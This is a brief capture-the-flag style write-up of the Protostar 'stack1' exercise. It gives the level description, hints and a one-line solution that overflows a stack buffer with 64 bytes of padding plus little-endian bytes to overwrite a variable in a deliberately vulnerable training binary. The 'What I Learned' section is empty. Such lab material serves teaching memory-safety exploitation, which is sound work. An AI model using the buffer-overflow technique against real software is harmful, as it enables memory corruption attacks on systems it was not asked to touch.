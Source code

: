 # Link
https://exploit-exercises.com/protostar/stack1/

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints

If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend.
Protostar is little endian

# Solution
user@protostar:/opt/protostar/bin$ ./stack1 `python -c 'print "a"*64+"\x64\x63\x62\x61"'`

you have correctly got the variable to the right value

# What I Learned
